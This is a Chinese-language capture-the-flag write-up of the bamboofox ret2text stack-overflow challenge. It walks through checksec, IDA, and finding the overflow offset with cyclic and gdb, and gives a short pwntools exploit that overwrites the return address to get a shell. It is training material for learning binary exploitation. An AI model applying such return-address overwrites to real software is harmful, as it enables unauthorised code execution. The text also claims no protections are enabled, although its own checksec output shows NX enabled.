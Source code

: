 > 参考资料：[https://blog.csdn.net/SanOrintea/article/details/82288959](https://blog.csdn.net/SanOrintea/article/details/82288959)
>
> 示例下载：[https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2text/bamboofox-ret2text](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2text/bamboofox-ret2text)
>

接上一小节

检查一下文件保护：

```powershell
root@kali:~/桌面/CTF# pwn checksec --file=ret2text
[*] '/root/\xe6\xa1\x8c\xe9\x9d\xa2/CTF/ret2text'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
root@kali:~/桌面/CTF# 
```

什么保护也没有开启，是一个32位的程序

老规矩载入IDA看一下：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596425386571-00ce6ecf-1524-4b5c-b7f0-cf2b8373296d.png)

可以看到s的栈长度为64，因此exp如下（python2）

```powershell
from pwn import *
p = process('./ret2text')
target = 0x804863a
p.sendline('A' * (0x64+4) + p32(target))
p.interactive()
```

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596425568231-468b0f94-13b8-4809-9af2-b615bf47e596.png)

看来IDA是错的，栈长度应该测量错了，下面介绍手动测量栈长度的方法：

首先使用工具cyclic生成无序字符串，看看什么时候溢出

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596426461243-f55b1c2e-28f6-4515-8fc3-3fcbd5ee1929.png)

使用gdb运行程序，这里我使用的是peda-gdb，具体用法请看下面文章

[Linux 程序GDB动态调试](https://www.yuque.com/cyberangel/rg9gdm/oyov4m)

输入start：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596426693879-77b13a55-7511-4339-b6a3-92c4bb0f7305.png)

这是程序会自动中断在main函数处，输入c继续运行，接着将200个无序字符粘贴在输入框中，回车

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596427037144-c1fd39de-2634-4204-b3ac-03391fb152c6.png)

观察可以知道程序的溢出点为：0x62616164，如下图所示：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596427063809-e3a8a915-edea-4843-877b-3967f73ee2bd.png)

那么怎么知道到底有多少个数字溢出了呢？

看他报错的意思是（跳转到0x62616164）这步出错了，意思就是没有0x62616164这个位置，那这个位置是从哪来的呢，就是我们200个有序字符其中最先溢出的部分。那么只要知道这个0x62616164是我们输入的第几个，就可以数出来它前头有几个数字了。根据ASCII码表，又根据‘0x’是16进制的意思，可以查表得出这串数字转换成字母是‘baad’。接下来就要知道cyclic的顺序了，稍微观察一下就可以知道cyclic的规则（4个数4个数有规则），轻易的就可以数出它的位置。

当然还有更简单的方法，前文也说了cyclic是有序字符串，自然有一个子函数可以查，“cyclic -l”代表着查询你所给的**4bit**字符前有几个字母。

输入【cyclic -l 0x62616164】，得到112，说明‘baad’前有112个字母，那么这112个字母就是填充空栈的所需量了。接下来多的就会溢出。如下图所示：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596427238490-7087cc9e-696b-441f-ae6d-4afb67e7f785.png)

那么我们就要把我们要他跳转的位置放在112（0x70）个字母后让他溢出，就可以实现跳转。

因此exp如下：

```powershell
from pwn import *
p = process('./ret2text')
target = 0x804863a
p.sendline('A' * 112 + p32(target))
p.interactive()
```

测试一下：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596427388207-af487bd2-cf2b-48e8-a7e4-6f5ac8fb4ae4.png)

成功getshell

